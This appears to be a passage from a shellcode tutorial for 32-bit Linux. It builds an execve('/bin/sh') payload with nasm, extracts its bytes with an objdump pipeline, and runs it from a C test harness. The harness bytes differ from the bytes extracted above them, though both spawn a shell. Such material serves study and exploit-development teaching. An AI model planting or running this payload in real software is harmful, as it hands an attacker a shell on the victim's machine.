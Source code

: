 This code can be assembled and linked using `nasm` to create an
executable binary program as an Executable and Linking Format (ELF)
binary:

```bash
nasm -f elf shellcode.asm
```

Now we need to disassemble it in order to get the shellcodes bytes:

```bash
objdump -d -M intel shellcode.o

shellcode.o:     file format elf32-i386

Disassembly of section .text:

00000000 <.text>:
   0:   31 c0                   xor    eax,eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx,esp
   f:   50                      push   eax
  10:   53                      push   ebx
  11:   89 e1                   mov    ecx,esp
  13:   b0 0b                   mov    al,0xb
  15:   cd 80                   int    0x80
```

We can now easily extract the hexadecimal shellcode, either by hand or
with some bash-fu:

```bash
objdump -d ./shellcode.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Ooutput:
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```

## [](#Shellcode-Testing "Shellcode Testing")Shellcode Testing

Now to be sure our shellcode works, let's write a simple program to run
it on our machine:

```bash
#include <stdio.h>
#include <string.h>

int main(){
    char shellcode[] = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
    int (*ret)() = (int(*)())shellcode;
    return ret();
}
```
